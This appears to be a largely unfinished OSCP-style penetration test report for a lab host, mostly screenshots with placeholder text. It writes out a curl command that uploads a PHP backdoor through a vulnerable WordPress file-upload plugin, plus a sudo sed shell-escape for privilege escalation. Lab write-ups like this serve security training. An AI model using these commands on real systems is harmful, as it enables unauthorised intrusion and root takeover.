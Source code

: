 ![image](https://github.com/user-attachments/assets/b6e362c9-0bb2-495d-a442-ee52fe1caa4b)

#Penetration Test Report Dorvack.Corp LAB 10
**Version**: 3.2  
**OSID**: XXXXX  
**Email**: ericgon28@proton.me 

![OSCP Logo](https://github.com/user-attachments/assets/d6b50208-9978-426d-bdd3-6cffcd6778c7)

> © All rights reserved to Offensive Security, 2025  
> No part of this publication, in whole or in part, may be reproduced, copied, transferred or any other right reserved to its copyright owner without prior written permission from Offensive Security.

---

## Table of Contents
1. [Offensive Security Exam Penetration Test Report](#1-offensive-security-exam-penetration-test-report)
   - [1.1 Introduction](#11-introduction)  
   - [1.2 Objective](#12-objective)  
   - [1.3 Requirements](#13-requirements)  
2. [High-Level Summary](#2-high-level-summary)  
   - [2.1 Recommendations](#21-recommendations)  
3. [Methodologies](#3-methodologies)  
   - [3.1 Information Gathering](#31-information-gathering)  
   - [3.2 Penetration](#32-penetration)  
---

## 1. Offensive Security Exam Penetration Test Report

### 1.1 Introduction
The Offensive Security Exam penetration test report outlines all actions and efforts taken during the Offensive Security exam. This report is graded based on the thoroughness, accuracy, and completion of each aspect of the exam. It ensures the student demonstrates an in-depth understanding of penetration testing methodologies as well as the technical knowledge required to earn the Offensive Security Certified Professional (OSCP) certification.

### 1.2 Objective
The objective is to perform an internal penetration test on the Offensive Security Exam network. The student must follow a systematic approach to achieving the assigned goals. This test simulates an actual penetration test, from start to finish, and includes a comprehensive report.

### 1.3 Requirements
The student is required to fill out this report fully, including the following sections:
- High-level summary and recommendations (non-technical)
- Detailed methodology outline
- Each finding with screenshots, walkthroughs, sample code, and proof.txt if applicable
- Additional items if not included in previous sections

---

## 2. High-Level Summary

### Compromised Hosts
- **172.20.0.235 (Dorvack.corp)** – Initial exploit used  
---

### 2.1 Recommendations
It is recommended that the identified vulnerabilities be patched immediately to prevent exploitation. These systems require regular updates and patches to avoid future breaches.

---

## 3. Methodologies

### 3.1 Information Gathering
Information gathering is critical in penetration testing. In this case, the scope of the test covered the following IP addresses:
- `172.20.0.235`

---

### 3.2 Penetration

#### System IP: `172.20.0.235`

**Service Enumeration:**
- **Server IP Address:** 172.20.0.235 

| Protocol | Port(s)       |
|----------|---------------|
| TCP      | 22, 80        |
| UDP      |               |

- **Nmap Scan Results:**

We scan the domain with nmap to see the services and versions running on open ports.

 ![image](https://github.com/user-attachments/assets/9f843fd1-2981-4afd-89d2-71ad84bdee7b)

 Vemos que se aplica host discovery, ya que al acceder on la direccion ip via web vemos el servicio de Apache, pero si editamos el 

![image](https://github.com/user-attachments/assets/af8b35c6-89c5-450a-8d79-1471319d0cea)

![image](https://github.com/user-attachments/assets/c8851231-bb5c-480d-a341-82cb2ad8d016)

![image](https://github.com/user-attachments/assets/fa371d76-8a16-48b1-a301-69c1b9fcb702)

![image](https://github.com/user-attachments/assets/36d0b4bb-04fa-4560-bbc4-c8af5a773d90)

![image](https://github.com/user-attachments/assets/abc8099d-5ee5-475b-82a3-0630ccbf6b5a)

![image](https://github.com/user-attachments/assets/8b436fe9-eddb-48fd-bcbb-8280d0a8ab09)

![image](https://github.com/user-attachments/assets/ecdb2d65-b016-42bb-8d6f-af01f8bf3cd0)


##### Initial Shell Vulnerability Exploited  

- _Insert details here_  
- **Vulnerability Explanation:**  
  _Explanation here_  
- **Vulnerability Fix:**  
  _Fix info here_  
- **Severity:** High / Critical
- **Proof of Concept Code:**
  
```bash
 curl -k -X POST -F "action=upload" -F "files=@./backdoor.php" http://VICTIM/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php
 ```

![image](https://github.com/user-attachments/assets/6f2c1dfd-c681-4a00-9bf1-9506e2058227)

![image](https://github.com/user-attachments/assets/cad4ec11-9adb-4e8a-b371-4ffb99a5c425)

![image](https://github.com/user-attachments/assets/349c08b6-8f66-452b-98ca-0e8dc5455290)

![image](https://github.com/user-attachments/assets/f35a9fb6-d30d-4303-9fcb-0a57b7f94b23)

RevShell

![image](https://github.com/user-attachments/assets/2aca672f-1a13-45e1-817d-385a45111b19)

![image](https://github.com/user-attachments/assets/388f5222-60d5-4fcd-8df7-de98814c26a3)

![image](https://github.com/user-attachments/assets/dd37914a-5946-4cb4-8f01-9a041cd06cb8)

![image](https://github.com/user-attachments/assets/bc5e6c2d-17b4-4414-bcb4-75189ec0c3bf)

![image](https://github.com/user-attachments/assets/412cf8d8-6408-4a0b-b547-6d1945999f39)

![image](https://github.com/user-attachments/assets/293deb1b-57a5-4df2-8c5b-64052a766b69)

**flag.txt Contents:**

```
flag{
```

![image](https://github.com/user-attachments/assets/6ff8a440-8018-43fb-b3e7-a086e67b0ead)

![image](https://github.com/user-attachments/assets/dc50f0be-efa5-4626-b195-5dd113a57da9)

![image](https://github.com/user-attachments/assets/a5732ff3-ccd2-4ed7-8b3d-a0310c41bd4f)

![image](https://github.com/user-attachments/assets/642c4142-da2c-4c1c-8f6c-ce4f800b399a)

![image](https://github.com/user-attachments/assets/12847f5e-e6f7-49fe-9c6f-6582f4b44043)

![image](https://github.com/user-attachments/assets/edbb9fc0-7fc6-421f-a8dd-91b4b2cf0e07)

![image](https://github.com/user-attachments/assets/b1d527b3-0bfd-4e59-a40c-c99c035294b6)

![image](https://github.com/user-attachments/assets/44c920bf-6d0e-465e-952a-fcc1023d2a85)

![image](https://github.com/user-attachments/assets/9e13cf54-1450-48a5-afde-31cbf90d145b)

![image](https://github.com/user-attachments/assets/908b9b68-efb9-4ac4-93f2-3d1429280539)


##### Privilege Escalation

- **Vulnerability Exploited:**  
  _Exploit name here_  
- **Vulnerability Explanation:**  
  _Explanation here_  
- **Vulnerability Fix:**  
  _Fix here_  
- **Severity:** High  
- **Exploit Code:**  
  ```bash
  sudo sed -n '1e exec sh 1>&0' /etc/hosts
  ```

![image](https://github.com/user-attachments/assets/cbe68821-97de-4f66-881d-8eb959706501)

![image](https://github.com/user-attachments/assets/5aa87ea4-3d3d-45f4-824a-5cac0a752042)


##### Root Screenshot

**root.txt Contents:**
```
insert hash or content
```

**End of Report**
